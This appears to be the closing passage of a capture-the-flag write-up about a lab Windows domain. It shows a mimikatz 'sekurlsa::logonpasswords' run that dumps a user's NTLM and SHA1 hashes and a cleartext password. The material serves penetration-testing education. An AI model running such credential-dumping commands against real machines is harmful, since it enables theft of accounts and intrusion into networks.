 ```
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::logonpasswords

... snip ...

Authentication Id : 0 ; 282626 (00000000:00045002)
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 8/2/2021 1:42:03 AM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105
        msv :
         [00000003] Primary
         * Username : sandra
         * Domain   : MEGACORP
         * NTLM     : 29ab86c5c4d2aab957763e5c1720486d
         * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38
         * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc
        tspkg :
        wdigest :
         * Username : sandra
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : sandra
         * Domain   : MEGACORP.LOCAL
         * Password : Password1234!
        ssp :
        credman :
... snip ...
```

And there we have Sandra's password.  

Done :)







